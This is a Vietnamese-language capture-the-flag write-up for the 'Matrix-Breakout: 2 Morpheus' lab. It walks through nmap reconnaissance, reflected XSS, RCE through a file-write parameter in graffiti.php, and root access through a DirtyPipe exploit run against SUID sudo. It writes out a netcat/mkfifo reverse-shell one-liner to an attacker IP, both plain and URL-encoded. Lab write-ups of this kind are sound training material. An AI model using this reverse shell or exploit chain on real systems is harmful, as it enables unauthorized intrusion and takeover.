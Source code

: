 <div align="center">
    <h1>Matrix-Breakout: 2 Morpheus Writeup</h1>
</div>

## 🔍1. Recon

- Khởi động target

![](Images/1.png)

- Quét `nmap`, tìm được một số cổng mở:
    - `22` chạy SSH.
    - `80` chạy Apache http server.
    - `81` chạy nginx http server.

![](Images/2.png)

- Tuy nhiên port `81` yêu cầu thông đăng nhập, vì vậy tập trung khai thác port `80`.

- Sử dụng `nmap` quét file, thư mục ẩn.

![](Images/3.png)

- Thu được một số file tiềm năng.

![](Images/20.png)

- Trong đó, `graffiti.php` chứa một form message có thể nhập input và reflect lên giao diện.

![](Images/4.png)

## 🔑2. User flag

- Thử script XSS: `<script>alert(1)</script>`

![](Images/5.png)

- Ghi nhận lỗ hổng `Reflected XSS`.

![](Images/6.png)

- Tuy nhiên không thể khai thác trực tiếp sâu hơn với lỗ hổng này.

- Sử dụng `BurpSuite` kiểm tra POST request.

![](Images/21.png)

- Theo đó, cùng với dữ liệu truyền vào từ `message`, người dùng được phép chỉ định file để ghi nội dung.

![](Images/22.png)

- Có thể tạo một shell để thực hiện `RCE`

![](Images/7.png)

- Thành công `RCE` trên hệ thống 

![](Images/8.png)

- Chèn reverse shell 
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.190.130 4444 >/tmp/f
```
```bash
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20192.168.190.130%204444%20%3E%2Ftmp%2Ff
```
![](Images/9.png)

- Vào thành công hệ thống và lấy được flag 1.

![](Images/10.png)

## 3. Root Flag

- Kiểm tra hệ thống, tìm được mật khẩu của user cypher dưới dạng md5 có salt.

![](Images/11.png)

- Thử crack mật khẩu này tuy nhiên không thành công

![](Images/19.png)

- Chạy `linpeas` trên mục tiêu để tìm các vector có thể leo thang đặc quyền.

![](Images/12.png)

- Tìm được `python3-9` có có capability `cap_sys_admin`

![](Images/13.png)

- Tuy nhiên không khai thác thành công.

- Trong kết quả `Linpeas` có đề cập một số CVE liên quan đến phiên bản kernel Linux.

- Kiểm tra phiên bản kernel.

![](Images/14.png)

- Tìm lỗ hổng với phiên bản này trên `searchsploit`

![](Images/15.png)

- POC https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits

- Biên dịch file POC

![](Images/16.png)

- Sau đó chạy file khai thác với đầu vào là `/usr/bin/sudo` có quyền `SUID`

![](Images/17.png)

- Thành công leo lên root và lấy được flag thứ 2

![](Images/18.png)



